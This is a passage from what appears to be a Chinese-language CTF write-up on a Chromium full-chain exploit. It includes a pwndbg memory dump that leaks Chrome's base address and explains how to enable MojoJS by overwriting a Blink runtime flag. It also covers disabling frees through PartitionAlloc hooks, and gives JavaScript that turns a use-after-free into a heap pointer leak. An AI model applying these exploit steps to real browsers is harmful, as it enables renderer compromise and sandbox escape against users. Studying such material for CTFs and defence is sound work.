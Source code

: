 ```
pwndbg> x/30gx 0x21ea10801000
0x21ea10801000:	0x0000561bbcf45160	0x000021ea10800000
0x21ea10801010:	0x000021ea10a00000	0x0000000000000000
0x21ea10801020:	0x000021ea10804650	0x0000000000000000
0x21ea10801030:	0x0000561bbcf466a8	0xffff000003000001
0x21ea10801040:	0x000021ea10808020	0x0000000000000000
0x21ea10801050:	0x0000561bbcf467a8	0xffff000001800001
0x21ea10801060:	0x0000000000000000	0x0000000000000000
```
可以看到其中是有chrome的基地址的，剩下的内容我们之后再利用部分再详解。

##### problem3

我们在进行sbx题目时，由于使用了--enable-blink-features=MojoJS，我们就可以直接调用mojo的ipc函数，但是在这道题目中去掉了这个flag位，所以我们无法像上题一样直接调用。

这里采用的方法就是将(bool)blink::RuntimeEnabledFeatures::is_mojo_js_enabled_置为1，这样就相当于使用了上述的参数。
```
chromium_fullchain$ nm --demangle ./chrome | grep -i 'blink::RuntimeEnabledFe
atures::is_mojo_js_enabled_'
000000000aa57325 b blink::RuntimeEnabledFeatures::is_mojo_js_enabled_
```

这里还涉及到一个问题就是我们在修改is_mojo_js_enabled_之后需要刷新网页才可以使其生效，但是在刷新的过程中就会触发chrome的垃圾回收，他就会去回收之前网页的对象，但是我们已经破坏掉了正常的freelist，这时候去释放的话就会导致程序crash，所以我们需要去修改一些hook：
```
(bool)base::PartitionAllocHooks::hooks_enabled_
base::PartitionAllocHooks::free_override_hook_

chromium_fullchain$ nm --demangle ./chrome | grep -i 'base::PartitionAllocHoo
ks::hooks_enabled_'
000000000a8f8848 b base::PartitionAllocHooks::hooks_enabled_

chromium_fullchain$ nm --demangle ./chrome | grep -i 'base::PartitionAllocHoo
ks::free_override_hook_'
000000000a8f8868 b base::PartitionAllocHooks::free_override_hook_
```
我们只要将hooks_enabled_置为1，再将free_override_hook_置为空函数，就可以架空free操作，这样就不会出现free，也就不会crash了。


### 以上就是对题目的分析，接下来我们来思考一下如何利用漏洞来解决问题

##### leak

由于题目存在uaf，我们只要构造好堆布局就可以很轻松的从以释放的object中泄漏指针：

```
		var no_gc = [];
		var arry_size = 1;
		var uaf = new Float64Array(arry_size).fill(i2f(0x747474747474n));
		var leaks = new Float64Array(arry_size);		
		await free(uaf.buffer);
		console.log("free buffers");
		//debug();
		for(let i = 0; i < 3; i++){
			gc();
		}
		console.log("gc");
		gar = []
		for(let i = 0; i < 800000; i++){
			gar.push(new Float64Array(0x20).fill(13.37));
		}
		console.log("magic");
		leaks.set(uaf, 0);
		leak_value = f2i(leaks[0]);
		if(leak_value == 0x747474747474n){
			throw 1;
```
